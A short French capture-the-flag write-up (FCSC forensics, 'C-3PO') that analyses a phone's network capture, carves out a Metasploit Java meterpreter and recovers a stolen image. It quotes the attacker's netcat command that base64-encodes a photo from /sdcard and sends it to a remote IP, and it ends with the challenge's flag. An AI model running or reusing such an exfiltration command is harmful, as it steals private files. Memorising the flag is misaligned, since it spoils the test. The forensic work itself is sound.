

Catégorie : Forensics

Difficulté : :star:

---

# C-3PO

## Ennoncé

> Pour votre première analyse, on vous confie le téléphone du PDG de GoodCorp.
> 
> Ce dernier est certain que les précieuses photos stockées sur son téléphone sont récupérées par un acteur malveillant.
> 
> Vous décidez de mettre en place une capture réseau sur le téléphone, afin de voir ce qu'il en est...
> 
> SHA256(capture.cap) = 7b63c22567098f829dfdc190b6f531bbdf23a23e222508752a0a5e5dfa28259c (61Mo).
> 
> Note : les épreuves C-3PO, R2-D2 et R5-D4 sont indépendantes

---

## Solve

On a un fichier **cap**

- export objet http --> rien
- DNS --> exfiltration dns --> rien

```shell
tcpflow -r capture.cap -o output
mv output/* > output/dump
foremost -i output/dump -o output/foremost_out/
```

On trouve dans les fichiers récuperer `classes.dex`

```
cat 00051661/classes.dex
```

On trouve que l'acteur malveillant est un **meterpreter java metasploit**

Au final pour trouver le flag avec wireshark, il suffit d'effectuer la requête : `frame contains flag` et `Suivre --> flux tcp`



```shell
cat /sdcard/DCIM/flag.png | base64 | nc 172.18.0.1 13387
```

On a ensuite de la base64 qu'on va transformer en une image


**Flag : FCSC{2d47d546d4f919e2d50621829a8bd696d3cd1938}**
